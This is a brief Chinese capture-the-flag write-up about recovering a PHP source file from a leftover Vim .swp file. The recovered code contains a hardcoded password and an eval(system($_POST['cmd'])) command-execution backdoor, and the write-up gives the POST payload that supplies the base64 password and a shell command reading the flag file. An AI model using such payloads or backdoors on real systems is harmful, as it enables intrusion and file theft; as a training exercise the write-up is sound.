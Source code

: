 #Vim泄露
vi/vim异常关闭会存留有.swp文件，访问 `.index.php.swp`

用 cat 命令打开后有以下

```php
   ?>            }                eval(system($_POST['cmd']));                echo "<p>Oh You got my password!</p>";            if ($_POST['password'] === base64_encode($password)) {            echo "<p>can can need Vim </p>";            $password = "Give_Me_Your_Flag";            error_reporting(0);           
```

于是 POST 传参 `password=R2l2ZV9NZV9Zb3VyX0ZsYWc=&cmd=cat ../../../fla*` 
